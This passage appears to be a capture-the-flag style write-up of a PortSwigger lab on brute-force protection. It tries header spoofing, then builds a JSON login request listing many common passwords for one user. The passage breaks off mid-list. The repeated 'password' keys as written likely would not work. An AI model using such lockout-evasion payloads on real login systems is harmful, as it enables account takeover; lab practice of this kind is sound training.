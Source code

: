 # Lab: Broken brute-force protection, multiple credentials per request

## Lab

This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

- Victim's username: carlos
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Hint

None

## Solution

In this lab, application use json format to post data to the database. After try login with random credentials, In fourth time the application returns `You have made too many incorrect login attempts. Please try again in 1 minute(s).` i try to modify the ip with `X-Forwarded-For` header but it is useless. The application used something to identify us.

Looking at the title of the lab `multiple credentials per request`. Whether we can post many password attach with one username.

So we try to login with multiple password in json format like this:
```json
{
    "username":"carlos",
    "password":"123456",
    "password":"password",
    "password":"12345678",
    "password":"qwerty",
    "password":"123456789",
    "password":"12345",
    "password":"1234",
    "password":"111111",
    "password":"1234567",
    "password":"dragon",
    "password":"123123",
    "password":"baseball",
    "password":"abc123",
    "password":"football",
    "password":"monkey",
    "password":"letmein",
    "password":"shadow",
    "password":"master",
    "password":"666666",
    "password":"qwertyuiop",
    "password":"123321",
    "password":"mustang",
    "password":"1234567890",
    "password":"michael",
    "password":"654321",
    "password":"superman",
    "password":"1qaz2wsx",
    "password":"7777777",
    "password":"121212",
    "password":"000000",
    "password":"qazwsx",
    "password":"123qwe",
    "password":"killer",
    "password":"trustno1",
```